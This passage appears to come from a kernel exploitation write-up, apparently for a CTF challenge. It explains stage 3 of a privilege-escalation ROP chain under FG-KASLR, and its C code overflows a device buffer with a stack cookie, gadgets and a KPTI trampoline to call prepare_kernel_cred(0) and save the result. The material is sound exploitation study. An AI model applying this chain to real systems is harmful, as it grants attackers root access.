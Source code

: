 ## Stage 3: calling prepare_kernel_cred(0)
Because of the limited amount of gadgets that we have, I couldn't find an easy way to perform a ROP chain that calls `commit_creds(prepare_kernel_cred(0))` and pop a root shell in one go (recall that I used some bizarre gadgets in the last part, and those aren't in the regions which are unaffected by `FG-KASLR`). Therefore, I have to follow the technique used in the original writeup by the author, in which they split the chain into 2 parts: calling `prepare_kernel_cred(0)` in the first attempt, saving the return value in `rax` to memory, which is the address of the `cred_struct` to be commited, then calling `commit_creds()` using that saved value in another attempt. By doing this, we don't have to concern about the most difficult part in a privileges escalation ROP chain, which is how to move the return value of `prepare_kernel_cred(0)` in `rax` to `rdi` to pass to `commit_creds()`.
```C
void stage_3(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_rbp_ret; // return address
    payload[off++] = 0; // rdi <- 0
    payload[off++] = 0; // dummy rbp
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)after_prepare_kernel_cred;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call prepare_kernel_cred(0)");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}

void after_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    returned_creds_struct = tmp_store;
    printf("    --> returned_creds_struct: %lx\n", returned_creds_struct);
    stage_4();
}
```

Notice that we can reuse `tmp_store` to store our returned `cred_struct` as well, very convenient.
